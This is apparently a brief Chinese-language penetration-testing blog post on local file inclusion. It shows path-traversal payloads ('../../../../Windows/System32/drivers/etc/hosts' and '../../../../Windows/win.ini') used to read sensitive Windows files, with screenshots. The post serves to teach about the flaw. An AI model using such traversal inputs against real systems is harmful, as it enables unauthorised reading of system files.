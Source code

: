```yaml
---
layout: post
title:  File Inclusion
date: 2021-06-29 14:45 +0900
category: penetration-exp
---
```

<!-- TOC -->

- [0x0 本地文件包含](#0x0-本地文件包含)

<!-- /TOC -->
## 0x0 本地文件包含

`可以看到读取的是文件名`
![](/images/20210629-1.png)
`利用敏感目录文件`
`../../../../Windows/System32/drivers/etc/hosts`
![](/images/20210629-2.png)
`../../../../Windows/win.ini`
![](/images/20210629-3.png)


